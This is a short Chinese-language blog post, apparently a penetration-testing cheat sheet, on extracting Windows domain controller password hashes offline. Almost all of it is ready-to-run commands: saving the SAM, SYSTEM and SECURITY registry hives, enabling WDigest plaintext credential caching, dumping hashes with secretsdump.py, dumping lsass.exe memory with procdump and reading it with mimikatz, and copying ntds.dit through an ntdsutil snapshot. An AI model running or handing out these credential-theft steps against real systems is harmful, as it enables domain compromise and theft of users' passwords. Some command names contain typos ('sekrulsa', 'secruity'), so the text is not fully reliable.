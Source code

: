 # 离线提取域控HASH的方法




## 1.注册表提取

提取文件，Windows Server 2003或者Win XP 及以前需要提升到system权限，以后只要Administrator权限即可。

```verilog
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security secruity.hive
```





本地获取：

```dockerfile
# 如果要提取明文，请修改注册表
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

# 破解hash
python ./secretsdump.py -sam ~/Desktop/sam.hive  -security ~/Desktop/security.hive -system ~/Desktop/system.hive  LOCAL
```



## 2.lsass.exe提取

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz#privilege::debug
mimikatz#sekurlsa::minidump lsass.dmp
mimikatz#sekrulsa::logonpasswords full  

```









## 3.ntds.dit提取

```bash
ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil snapshot "mount {GUID}" quit quit
copy MOUNT_POINT\windows\ntds\ntds.dit c:\temp\ntds.dit
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit

```















---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/%E7%A6%BB%E7%BA%BF%E6%8F%90%E5%8F%96%E5%9F%9F%E6%8E%A7hash%E7%9A%84%E6%96%B9%E6%B3%95/  

